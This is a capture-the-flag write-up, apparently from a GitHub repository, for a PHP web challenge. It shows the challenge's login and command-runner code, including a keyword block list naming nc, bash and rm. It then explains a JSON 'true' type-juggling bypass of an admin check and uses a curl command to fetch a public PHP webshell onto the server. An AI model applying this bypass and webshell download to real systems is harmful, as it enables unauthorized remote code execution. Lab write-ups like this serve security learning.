





# solution

```
<?php
include ("./config.php");
include("./config/db_config.php");

$message = "";

if ($_SERVER["REQUEST_METHOD"]=="POST"){
    $data = json_decode($_POST["username"]);

    if ($data === null) {
        exit("Failed to parse JSON data");
    }

    $username = $data->username;

    if($username === "admin" ){
        exit("no hack");
    }

    switch($username){
        case "admin":
            $user = "admin";
            $password = "***REDACTED***";
            $stmt = $conn -> prepare("SELECT * FROM users WHERE username = ? AND password = ?");
            $stmt -> bind_param("ss",$user,$password);
            $stmt -> execute();
            $result = $stmt -> get_result();
            if ($result -> num_rows == 1){
                $_SESSION["auth"] = "admin";
                header("Location: test.php");
            } else {
                $message = "Something wrong...";
            }
            break;
        default:
            $_SESSION["auth"] = "guest";
            header("Location: test.php");

    }
}
?>
```

```
<?php

include ("./config.php");

$pattern = '/\b(flag|nc|netcat|bin|bash|rm|sh)\b/i';

if($_SESSION["auth"] === "admin"){

    $command = isset($_GET["cmd"]) ? $_GET["cmd"] : "ls";
    $sanitized_command = str_replace("\n","",$command);
    if (preg_match($pattern, $sanitized_command)){
        exit("No hack");
    }
    $resulttt = shell_exec(escapeshellcmd($sanitized_command));
}
else if($_SESSION["auth"]=== "guest") {

    $command = "echo hi guest";
    $result = shell_exec($command);

}

else {
    $result = "Authentication first";
}
?>
```

Two part of codes we should focus, first of all we need to access to admin's authen. We can take advantage of weak comparison in php's switch function(the problem also see in strcmp() and in_array()).
<br>
So by use json data **{"username": true}** switch will compare "admin"==true (and it true). So we can access in admin role. Accomplish one task, we need to find a way to execute cmdI to find a flag.
After searching and get hints, i know that we can upload a webshell to execute remote code.

```
https://github.com/JohnTroony/php-webshells/blob/master/Collection/Simple-Webshell.php
```

Here is the link but you need to copy url link to raw file.

```
https://github.com/JohnTroony/php-webshells/blob/master/Collection/Simple-Webshell.php
```

Because the server dont filter **curl** we can use this payload.

```
curl-o hack.php https://raw.githubusercontent.com/JohnTroony/php-webshells/master/Collection/Simple-Webshell.php
```

<br>
and go to /hack.php
<br>

i guess i need to go back to get the flag (from the position of file in zip'file)
<br>
Oh let go to /flag dir
<br>
